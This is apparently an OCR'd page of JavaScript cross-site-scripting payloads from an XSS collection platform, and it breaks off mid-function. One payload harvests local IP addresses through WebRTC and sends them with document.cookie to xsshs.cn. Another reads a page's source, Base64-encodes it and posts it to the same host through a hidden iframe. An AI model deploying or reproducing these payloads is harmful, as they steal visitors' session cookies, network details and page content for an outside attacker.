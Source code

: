```
    addrs["0.0.0.0"] = false;
    function updateDisplay(newAddr) {
        if (newAddr in addrs) return; else addrs[newAddr] = true;
        var displayAddrs = Object.keys(addrs).filter(function(k) {
            return addrs[k];
        });
new Image().src="https://xsshs.cn/xss.php?do=selfxss&act=g&id={projectId}&c=!!!cookie:"+document.cookie+"!!!ip:"+String(displayAddrs);

    }
    function grepSDP(sdp) {
        var hosts = [];
        sdp.split("\r\n").forEach(function(line) {
            if (~line.indexOf("a=candidate")) {
                var parts = line.split(" "), addr = parts[4], type = parts[7];
                if (type === "host") updateDisplay(addr);
            } else if (~line.indexOf("c=")) {
                var parts = line.split(" "), addr = parts[2];
                updateDisplay(addr);
            }
        });
    }
})(); 
```
获取页面源码的脚本

```
var cr;
if (document.charset) {
  cr = document.charset
} else if (document.characterSet) {
  cr = document.characterSet
};
function createXmlHttp() {
  if (window.XMLHttpRequest) {
    xmlHttp = new XMLHttpRequest()
  } else {
    var MSXML = new Array('MSXML2.XMLHTTP.5.0', 'MSXML2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP', 'Microsoft.XMLHTTP');
    for (var n = 0; n < MSXML.length; n++) {
      try {
        xmlHttp = new ActiveXObject(MSXML[n]);
        break
      } catch (e) {
      }
    }
  }
}
createXmlHttp();
xmlHttp.onreadystatechange = writeSource;
xmlHttp.open('GET', '{set.filename}', true);
xmlHttp.send(null);
function writeSource() {
  if (xmlHttp.readyState == 4) {
      var code = BASE64.encoder(xmlHttp.responseText);
      xssPost('https://xsshs.cn/xss.php?do=api&id={projectId}', code);
  }
}

  function xssPost(url, postStr) {
    var de;
    de = document.body.appendChild(document.createElement('iframe'));
    de.src = 'about:blank';
    de.height = 1;
```